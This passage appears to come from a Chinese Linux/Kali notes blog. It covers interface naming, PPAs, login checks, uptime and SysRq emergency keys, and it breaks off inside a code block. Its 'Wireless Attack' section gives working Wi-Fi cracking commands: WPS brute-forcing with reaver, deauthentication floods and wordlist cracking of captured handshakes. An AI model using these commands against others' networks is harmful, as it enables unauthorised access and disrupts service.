<p>这有什么缺点吗？  是的，它确实。  以前实际上可以保证配备单个以太网卡的主机只有一个“eth0”接口。  有了这个新方案，管理员现在必须首先检查本地接口名称是什么，然后才能在其上调用命令，而以前他们很有可能“eth0”是正确的名称。 </p>
<p><strong>我不喜欢这个，我该如何禁用它？</strong> </p>
<p>你基本上有三个选择： </p>
<ol>
<li>您禁用固定名称的分配，以便再次使用不可预测的内核名称。  为此，只需为默认策略屏蔽 udev 的 .link 文件： <code>ln -s /dev/null /etc/systemd/network/99-default.link</code></li>
<li>您可以创建自己的手动命名方案，例如将接口命名为“internet0”、“dmz0”或“lan0”。   为此，在 /etc/systemd/network/ 中创建您自己的 .link  文件，为您的一个、部分或所有接口选择一个明确的名称或更好的命名方案。 请参阅 <a href="http://www.freedesktop.org/software/systemd/man/systemd.link.html" target="_blank" rel="noopener">systemd.link(5) 。 </a>  有关详细信息， </li>
<li>您在内核命令行上传递 net.ifnames=0 </li>
</ol>
<p>（此小节结束）</p>
<p>根据<a href="https://github.com/brektrou" target="_blank" rel="noopener">brektrou</a>的说法，还可以使用<code>grep -lr . | xargs sed -i &#39;&#39; -e &#39;/ifcfg-wlan0/!s/wlan0/&lt;name of the device&gt;/g&#39;</code>来替换网卡名</p>
<h5 id="Wireless-Attack"><a href="#Wireless-Attack" class="headerlink" title="Wireless Attack"></a>Wireless Attack</h5><p>支持WPS破解的wifi:</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">service network-manager stop</span><br><span class="line">wash -i wlan0</span><br><span class="line">reaver -i wlan0 -b &lt;MAC&gt; -vv -c &lt;CH&gt;</span><br><span class="line">reaver -i wlan0 -b &lt;MAC&gt; -vv -p &lt;PIN&gt; -c &lt;CH&gt;</span><br><span class="line">service network-manager start</span><br></pre></td></tr></table></figure>
<p>Aircrack-ng</p>
<figure class="highlight css"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line"><span class="selector-tag">airmon-ng</span> <span class="selector-tag">start</span> <span class="selector-tag">wlan2</span></span><br><span class="line"><span class="selector-tag">airodump-ng</span> <span class="selector-tag">wlan2mon</span></span><br><span class="line"><span class="selector-tag">airodump-ng</span> <span class="selector-tag">wlan0</span> <span class="selector-tag">-d</span> <span class="selector-attr">[Mac 地址]</span></span><br><span class="line"><span class="selector-tag">airodump-ng</span> <span class="selector-tag">wlan0</span> <span class="selector-tag">-d</span> <span class="selector-attr">[Mac]</span> <span class="selector-tag">-c</span> <span class="selector-attr">[频道]</span> <span class="selector-tag">-w</span> <span class="selector-attr">[FilePath+文件名开头]</span></span><br><span class="line"><span class="selector-tag">aireplay-ng</span> <span class="selector-tag">wlan0</span> <span class="selector-tag">-0</span> 2 <span class="selector-tag">-a</span> <span class="selector-attr">[路由器Mac]</span> <span class="selector-tag">-c</span> <span class="selector-attr">[客户端Mac]</span></span><br><span class="line"><span class="selector-tag">aireplay-ng</span> <span class="selector-tag">wlan2mon</span> <span class="selector-tag">-0</span> 0 <span class="selector-tag">-x</span> 2 <span class="selector-tag">-a</span> 84<span class="selector-pseudo">:D9</span><span class="selector-pseudo">:31</span><span class="selector-pseudo">:67</span><span class="selector-pseudo">:48</span><span class="selector-pseudo">:B0</span></span><br><span class="line"></span><br><span class="line"><span class="selector-tag">aircrack-ng</span> &lt;<span class="selector-tag">file</span>&gt; <span class="selector-tag">-w</span> &lt;<span class="selector-tag">wordlist</span>&gt;</span><br><span class="line"># 解密</span><br><span class="line"><span class="selector-tag">airdecap-ng</span> <span class="selector-tag">-e</span> &lt;<span class="selector-tag">essid</span>&gt; <span class="selector-tag">-p</span> &lt;<span class="selector-tag">wpa-key</span>&gt; <span class="selector-tag">file</span></span><br></pre></td></tr></table></figure>
<blockquote>
<p>wireshark过滤握手包(一共四个)：<code>eapol or wlan.fc.type_subtype == 0x08</code></p>
<p><code>wlan.fc.type_subtype == 0x08</code> —— 查看wifi ssid</p>
<p><code>eapol</code> —— 查看握手包</p>
</blockquote>
<p>Cowpatty</p>
<blockquote>
<p>hash破解WPA-wifi： PMK</p>
</blockquote>
<p> <code>genpmk -f [wordlist] -d [output] -s &#39;wifi-SSID&#39;</code></p>
<p> <code>cowpatty -d [pmk hash file] -r [cap handshake file] -s &#39;wifi-SSID&#39;</code></p>
<h4 id="添加PPA仓库（私人软件包仓库）——谨慎"><a href="#添加PPA仓库（私人软件包仓库）——谨慎" class="headerlink" title="添加PPA仓库（私人软件包仓库）——谨慎"></a>添加PPA仓库（私人软件包仓库）——谨慎</h4><figure class="highlight makefile"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 添加PPA：</span></span><br><span class="line">vi /etc/lsb-release</span><br><span class="line">DISTRIB_ID=Kali</span><br><span class="line">DISTRIB_RELEASE=kali-rolling</span><br><span class="line">DISTRIB_CODENAME=kali-rolling</span><br><span class="line">DISTRIB_DESCRIPTION=<span class="string">"Kali GNU/Linux Rolling"</span></span><br><span class="line"><span class="comment"># 改成（可以直接添加的就不用改）:</span></span><br><span class="line">DISTRIB_ID=Ubuntu</span><br><span class="line">DISTRIB_RELEASE=18.04</span><br><span class="line">DISTRIB_CODENAME=bionic</span><br><span class="line">DISTRIB_DESCRIPTION=<span class="string">"Ubuntu bionic"</span></span><br><span class="line"><span class="comment"># 假装是Ubuntu</span></span><br><span class="line">在apt source.d中添加源</span><br><span class="line">deb http://ppa.launchpad.net/saiarcot895/flightgear/ubuntu bionic main</span><br><span class="line"><span class="comment"># 添加key：</span></span><br><span class="line">apt-key adv --keyserver keyserver.ubuntu.com --recv-keys E6200BDA4A746F2A1F7FFD3FE6A17451DC058F40</span><br><span class="line"><span class="comment"># 或者：</span></span><br><span class="line"><span class="section">https://repogen.simplylinux.ch/?utm_source=hacpai.com</span></span><br></pre></td></tr></table></figure>
<h4 id="谁在系统里？"><a href="#谁在系统里？" class="headerlink" title="谁在系统里？"></a>谁在系统里？</h4><p>你可以通过下面的方法检查谁登录在系统里。</p>
<blockquote>
<p>“<code>/var/run/utmp</code>“ 和 “<code>/var/log/wtmp</code>“ 存储这样的用户信息。参见 <code>login</code>(1) 和 <code>utmp</code>(5).</p>
</blockquote>
<ul>
<li><code>who</code>(1) 显示谁登录在系统里面。  </li>
<li><code>w</code>(1) 显示谁登录在系统里面，他们正在在做什么。  </li>
<li><code>last</code>(1) 显示用户最后登录的列表。  </li>
<li><code>lastb</code>(1) 显示用户最后错误登录的列表。  </li>
</ul>
<h4 id="Linux查看开机时间"><a href="#Linux查看开机时间" class="headerlink" title="Linux查看开机时间"></a>Linux查看开机时间</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"># 显示开机到现在的时间</span><br><span class="line">$ uptime</span><br><span class="line"> <span class="number">10</span>:<span class="number">26</span>:<span class="number">42</span> up <span class="number">5</span> min,  <span class="number">1</span> user,  load average: <span class="number">3.43</span>, <span class="number">2.98</span>, <span class="number">1.36</span></span><br><span class="line"></span><br><span class="line"># 显示本次开机时间点</span><br><span class="line">$ uptime -s </span><br><span class="line"><span class="number">2023</span><span class="number">-11</span><span class="number">-01</span> <span class="number">10</span>:<span class="number">21</span>:<span class="number">38</span></span><br><span class="line"></span><br><span class="line"># 显示开机日志</span><br><span class="line">$ last -x | grep <span class="string">"system boot"</span></span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Wed Nov  <span class="number">1</span> <span class="number">10</span>:<span class="number">21</span>   still running</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Wed Nov  <span class="number">1</span> <span class="number">08</span>:<span class="number">00</span>   still running</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Tue Oct <span class="number">31</span> <span class="number">16</span>:<span class="number">27</span> - <span class="number">17</span>:<span class="number">32</span>  (<span class="number">01</span>:<span class="number">05</span>)</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Tue Oct <span class="number">31</span> <span class="number">15</span>:<span class="number">05</span> - <span class="number">16</span>:<span class="number">26</span>  (<span class="number">01</span>:<span class="number">20</span>)</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Tue Oct <span class="number">31</span> <span class="number">14</span>:<span class="number">51</span> - <span class="number">15</span>:<span class="number">03</span>  (<span class="number">00</span>:<span class="number">12</span>)</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Tue Oct <span class="number">31</span> <span class="number">14</span>:<span class="number">46</span> - <span class="number">14</span>:<span class="number">50</span>  (<span class="number">00</span>:<span class="number">04</span>)</span><br><span class="line">reboot   system boot  <span class="number">6.1</span><span class="number">.0</span><span class="number">-13</span>-amd64   Tue Oct <span class="number">31</span> <span class="number">14</span>:<span class="number">27</span> - <span class="number">14</span>:<span class="number">45</span>  (<span class="number">00</span>:<span class="number">17</span>)</span><br></pre></td></tr></table></figure>
<h4 id="【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq-系统应急控制键-——-类似Windows的Ctrl-Shift-Esc"><a href="#【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq-系统应急控制键-——-类似Windows的Ctrl-Shift-Esc" class="headerlink" title="【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq 系统应急控制键 —— 类似Windows的Ctrl+Shift+Esc"></a>【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq 系统应急控制键 —— 类似Windows的Ctrl+Shift+Esc</h4><blockquote>
<p><a href="https://www.kernel.org/doc/html/latest/admin-guide/sysrq.html" target="_blank" rel="noopener">https://www.kernel.org/doc/html/latest/admin-guide/sysrq.html</a></p>
<p><a href="https://www.cnblogs.com/xingmuxin/p/9023505.html" target="_blank" rel="noopener">https://www.cnblogs.com/xingmuxin/p/9023505.html</a></p>
</blockquote>
<p>按 Alt-SysRq (PrtScr)组合键跟一个字母按键，进行不可思议的系统应急控制。</p>
<blockquote>
<p>否遇到服务器不能通过 SSH登录，也不能通过外地终端登录，但是却能  ping通，数字键盘锁还可以响应击键操作的情况？这种情况下，除了按下电源或复位键之外，还做过什么吗？否想过这种情况是可能恢复的呢？否想过收集更多的信息来定位这次系统挂起的原因呢？上述情况，可称之为“可中断的系统挂起”换句话来讲，系统因为某种原因已经停止对大部分正常服务的响应，但是系统仍然可以响应键盘的按键中断请求。这种情况下，一组称为 SysRq按键组合将发挥它神奇作用。</p>
<p>SysRq经常被称为 MagicSystemRequest被定义为一系列按键组合。之所以说它神奇，因为它系统挂起，大多数服务已无法响应的情况下，还能通过按键组合来完成一系列预先定义的系统操作。<strong>通过它不但可以在保证磁盘数据安全的情况下重启一台挂起的服务器，防止数据丢失和重启后长时间的文件系统检查，还可以收集包括系统内存使用，CPU任务处置，进程运行状态等系统运行信息，甚至还可能在无需重启的情况下挽回一台已经停止响应的服务器。</strong></p>
<p>要启用 SysRq 功能，首先必须确保内核已经加入 CONFIG_MAGIC_SYSRQ 支持。在现今 Linux 发行版中，无一例外的均已加入该功能的支持，验证如下：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">&gt;grep <span class="string">"SYSRQ"</span> /boot/config-【请自行Tab补齐】</span><br><span class="line">&gt;或</span><br><span class="line">&gt;grep <span class="string">"SYSRQ"</span> /boot/config-`uname -r`</span><br><span class="line"></span><br><span class="line">&gt;<span class="attribute">CONFIG_MAGIC_SYSRQ</span>=y</span><br><span class="line">&gt;<span class="attribute">CONFIG_MAGIC_SYSRQ_DEFAULT_ENABLE</span>=0x01b6</span><br><span class="line">&gt;<span class="attribute">CONFIG_MAGIC_SYSRQ_SERIAL</span>=y</span><br><span class="line">&gt;<span class="attribute">CONFIG_MAGIC_SYSRQ_SERIAL_SEQUENCE</span>=<span class="string">""</span></span><br></pre></td></tr></table></figure>
<p>通过 sysctl 启用：SysRq 功能默认在 RHEL5u2 上是禁用的。可以通过 proc 文件系统来启用它。使用 sysctl 命令启用它，并通过 /proc 来检查其可用性。</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&gt;</span><span class="bash">$ cat /proc/sys/kernel/sysrq</span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">438 </span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">如果是0，就是没启用，请用下面启用：</span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">$ sysctl -w kernel.sysrq=1</span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">kernel.sysrq = 1</span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">$ cat /proc/sys/kernel/sysrq</span></span><br><span class="line"><span class="meta">&gt;</span><span class="bash">1</span></span><br></pre></td></tr></table></figure>
<p>保持重启后生效：通过把” kernel.sysrq = 1 ”设置到 <code>/etc/sysctl.conf</code> 中，可以使 SysRq  在下次系统重启后仍然生效。请注意，在非 RHEL  系统中，也许需要通过其它的配置文件来使之重启后生效，如<code>/usr/lib/sysctl.d/50-default.conf</code></p>
<p>网上有道题，问在只有 shell，init、halt、shutdown 等命令都不工作的情况下如何重启系统。答案就是 SysRq，通过 SysRq – B 来完成系统的重启。</p>
<p>早期的 SysRq 只支持键盘操作。要使用 SysRq，必须直接对主机进行键盘操作。要想执行 SysRq-B  来重启系统，只能通过直接键盘操作 Alt – SysRq – B 来完成（这里的 B 仅指 B 按键，不区分大小写）。 kernel  2.5.64 上的一个 patch 增加了 /proc/sysrq-trigger 接口，使得用户可能通过 /proc 接口来进行 SysRq  操作，换而言之，在现今大部分构建在 2.6 内核上的发行版，对主机键盘的物理接触已经不再是 SysRq  的必要条件。用户只需要登录到系统上，就可以直接使用 <code>echo &quot;b&quot; &gt; /proc/sysrq-trigger</code>  来重启系统。在下文中，为描述的简洁，<code>SysRq-&lt;?&gt;</code> 均代表 <code>Alt-SysRq-&lt;?&gt;</code> 或者 <code>echo  &quot;?&quot;  &gt; /proc/sysrq-trigger</code> 。</p>
<p>众所周知，系统挂起的很多时候 ssh 登录也未必响应，在缺乏对主机物理操作条件下，<code>/proc/sysrq-trigger</code> 也因为无法获取登录  shell 而无法操作。于是出现了一个名为 sysrqd 的开源项目，它允许通过网络来直接来触发 SysRq 。该程序只有 300  行左右代码，监听 TCP 端口 4094，通过自定义密码验证过后，即可对 /proc/sysrq-trigger  进行操作。但是由于此程序在用户空间实现，在系统挂起时该程序的可用性，以及其安全性均受到广泛质疑。其实如果这个服务做到内核空间，以类似响应 ARP  形式进行处理，再加上合理的认证方式，或许在大多数系统挂起的时候可以起到更加实际的作用。当然，在现代服务器的远程管理模块日趋先进的前提下，是否能通过网络来触发 SysRq 好像并不是那么重要。</p>
<p>到目前为止，我们可见到的大多数 SysRq 推荐用法都是系统挂起后的安全重启，用此方法来避免数据丢失。这个 SysRq 序列是  R-E-I-S-U-B 。要知道，该序列早在 SysRq 首次于 Linux 实现的 2.1.43 内核中就存在了。它基本等价于 reboot  命令，会依次停止系统上运行的进程，回写磁盘缓冲区，再安全的重启系统。需要注意的是，E 会向除 init 以外所有进程发送可捕获的 SIGTERM 信号，这就意味着程序可能需要一定时间来进行结束进程前的善后处理，视系统负载和任务数量，这个时间可能会达到几十秒。 I 发送的是不可捕获的  SIGKILL 信号，相对而言没有更多的延迟。同时，S 和 U  这两个动作均与磁盘相关。当系统具有一定负载时，这两个动作均不会立即完成，而是需要一定的时间，通常为几秒钟。所以，R-E-I-S-U-B  这个序列的推荐使用方式是：R – 1 秒 – E – 30 秒 – I – 10 秒 – S – 5 秒 – U – 5 秒 –  B，而不是一气呵成地按下这六个键，试想一次正常的 reboot 命令也不是在一瞬间完成的吧。</p>
<p><code>echo c &gt; /proc/sysrq-trigger</code>  c预定义的SysRq功能之一，触发Crashdump发生kernelpanic</p>
</blockquote>
<p> <strong>表 9.12. 著名的 SAK 命令键列表</strong>            </p>
<div class="table-container">
<table>
<thead>
<tr>
<th style="text-align:left">Alt-SysRq 之后的键</th>
<th style="text-align:left">行为描述</th>
</tr>
</thead>
<tbody>
<tr>
<td style="text-align:left"><code>k</code></td>
<td style="text-align:left"><strong>k</strong>ill 杀死在<strong>当前虚拟控制台</strong>上的所有进程 (<a href="https://en.wikipedia.org/wiki/Secure_attention_key" target="_blank" rel="noopener">SAK</a>)</td>
</tr>
<tr>
<td style="text-align:left"><code>s</code></td>
<td style="text-align:left"><strong>s</strong>ync 同步刷新所有已经挂载的文件系统来避免数据损坏</td>
</tr>
<tr>
<td style="text-align:left"><code>u</code></td>
<td style="text-align:left">重新以只读方式挂载所有已挂载的文件系统 (<strong>u</strong>mount)</td>
</tr>
<tr>
<td style="text-align:left"><code>r</code></td>
<td style="text-align:left">在 X 崩溃后，从 <strong>r</strong>aw 模式恢复键盘</td>
</tr>
</tbody>
</table>
</div>
<figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">Alt+SysRq+r</span> <span class="string">把键盘从X手中夺过来</span></span><br><span class="line"><span class="meta">Alt+SysRq+e</span> <span class="string">终结所有进程</span></span><br><span class="line"><span class="meta">Alt+SysRq+i</span> <span class="string">强制关闭所有进程</span></span><br><span class="line"><span class="meta">Alt+SysRq+s</span> <span class="string">同步所有挂载的文件系统</span></span><br><span class="line"><span class="meta">Alt+SysRq+u</span> <span class="string">重新挂载所有的文件系统为只读</span></span><br><span class="line"><span class="meta">Alt+SysRq+b</span> <span class="string">重启</span></span><br><span class="line"></span><br><span class="line"><span class="attr">R</span> <span class="string">- 把键盘设置为 ASCII 模式 (用于接收后面键盘输入)</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Keyboard mode set to XLATE</span></span><br><span class="line"><span class="attr">E</span> <span class="string">- 向除 init 以外所有进程发送 SIGTERM 信号 (让进程自己正常退出)</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Terminate All Tasks</span></span><br><span class="line"><span class="attr">I</span> <span class="string">- 向除 init 以外所有进程发送 SIGKILL 信号 (强制结束进程)</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Kill All Tasks</span></span><br><span class="line"><span class="attr">S</span> <span class="string">- 磁盘缓冲区同步</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Emergency Sync</span></span><br><span class="line"><span class="attr">U</span> <span class="string">- 重新挂载为只读模式</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Emergency Remount R/O</span></span><br><span class="line"><span class="attr">B</span> <span class="string">- 立即重启系统</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Resetting</span></span><br><span class="line"><span class="meta">由于系统环境与后台进程个数的不确定性，每一步按键操作执行完成所费时间无法确定。为保险起见，一般采用</span> <span class="string">R – 1 秒 – E – 30 秒 – I – 10 秒 – S – 5 秒 – U – 5 秒 – B，而不是一气呵成地按下这六个键。</span></span><br><span class="line"></span><br><span class="line"><span class="attr">其他：</span></span><br><span class="line"><span class="attr">H</span> <span class="string">- 帮助</span></span><br><span class="line">	<span class="meta">它显示了当前系统支持的所有</span> <span class="string">SysRq 组合，所有的按键均用大写字母表示。</span></span><br><span class="line"><span class="attr">C</span> <span class="string">- 触发 Crashdump</span></span><br><span class="line">	<span class="attr">更详细系统挂起的诊断和数据收集</span></span><br><span class="line"><span class="attr">N</span> <span class="string">- 降低实时任务运行优化级</span></span><br><span class="line">	<span class="meta">这对于由实时任务消耗</span> <span class="string">CPU 引起的系统挂起会起到立竿见影的作用。</span></span><br><span class="line"></span><br><span class="line"><span class="meta">M-P-T-W</span> <span class="string">– 系统死机证据收集机</span></span><br><span class="line"><span class="attr">SysRq</span> <span class="string">提供了 M-P-T-W 序列，在恢复系统挂起之前，这是一个推荐执行的序列。它会记录下当前系统的内存使用情况，当前 CPU 寄存器的状态，进程运行状态，以及所有 CPU 及寄存器的状态。通过这些信息，可以对挂起的原因做粗略的分析。</span></span><br><span class="line"><span class="attr">M</span> <span class="string">- 打印内存使用信息</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Show Memory</span></span><br><span class="line"><span class="attr">P</span> <span class="string">- 打印当前 CPU 寄存器信息</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Show Regs</span></span><br><span class="line"><span class="attr">T</span> <span class="string">- 打印进程列表</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Show State</span></span><br><span class="line"><span class="attr">W</span> <span class="string">- 打印 CPU 信息</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Show CPUs</span></span><br><span class="line"></span><br><span class="line"><span class="meta">E-I-K</span> <span class="string">– 解决系统假死利器</span></span><br><span class="line"><span class="meta">有时候系统的死机仅仅是因为个别进程过分消耗</span> <span class="string">cpu 或内存等系统资源所引发的，这时候就没有必要非得重启来解决问题。我们需要做的就是找出 “幕后黑手”，结束掉该进程就行了。</span></span><br><span class="line"><span class="attr">E</span> <span class="string">- 向除 init 以外所有进程发送 SIGTERM 信号 (让进程自己正常退出)</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Terminate All Tasks</span></span><br><span class="line"><span class="attr">I</span> <span class="string">- 向除 init 以外所有进程发送 SIGKILL 信号 (强制结束进程)</span></span><br><span class="line">	<span class="attr">SysRq</span>: <span class="string">Kill All Tasks</span></span><br><span class="line"><span class="attr">K</span> <span class="string">- 结束与当前控制台相关的全部进程</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">SAK </span></span><br><span class="line"><span class="attr">F</span> <span class="string">- 人为触发 OOM Killer (可选，除非可以确认是内存使用问题，尽量避免使用这个组合键)</span></span><br><span class="line">	<span class="attr">SysRq</span> : <span class="string">Manual OOM execution </span></span><br><span class="line">	<span class="meta">(OOM</span> <span class="string">Killer 将根据各进程的内存处理情况选取最合适的“凶手”进程，并向其发送 SIGKILL 信		号，中	止其运行。)</span></span><br></pre></td></tr></table></figure>
<figure class="highlight tcl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br><span class="line">172</span><br><span class="line">173</span><br><span class="line">174</span><br><span class="line">175</span><br><span class="line">176</span><br><span class="line">177</span><br><span class="line">178</span><br><span class="line">179</span><br><span class="line">180</span><br><span class="line">181</span><br><span class="line">182</span><br><span class="line">183</span><br><span class="line">184</span><br><span class="line">185</span><br><span class="line">186</span><br><span class="line">187</span><br><span class="line">188</span><br><span class="line">189</span><br><span class="line">190</span><br><span class="line">191</span><br><span class="line">192</span><br><span class="line">193</span><br><span class="line">194</span><br><span class="line">195</span><br><span class="line">196</span><br><span class="line">197</span><br><span class="line">198</span><br><span class="line">199</span><br><span class="line">200</span><br><span class="line">201</span><br><span class="line">202</span><br><span class="line">203</span><br><span class="line">204</span><br><span class="line">205</span><br><span class="line">206</span><br><span class="line">207</span><br><span class="line">208</span><br><span class="line">209</span><br><span class="line">210</span><br><span class="line">211</span><br><span class="line">212</span><br><span class="line">213</span><br><span class="line">214</span><br><span class="line">215</span><br><span class="line">216</span><br><span class="line">217</span><br><span class="line">218</span><br><span class="line">219</span><br><span class="line">220</span><br><span class="line">221</span><br><span class="line">222</span><br><span class="line">223</span><br><span class="line">224</span><br><span class="line">225</span><br><span class="line">226</span><br><span class="line">227</span><br><span class="line">228</span><br><span class="line">229</span><br><span class="line">230</span><br><span class="line">231</span><br><span class="line">232</span><br><span 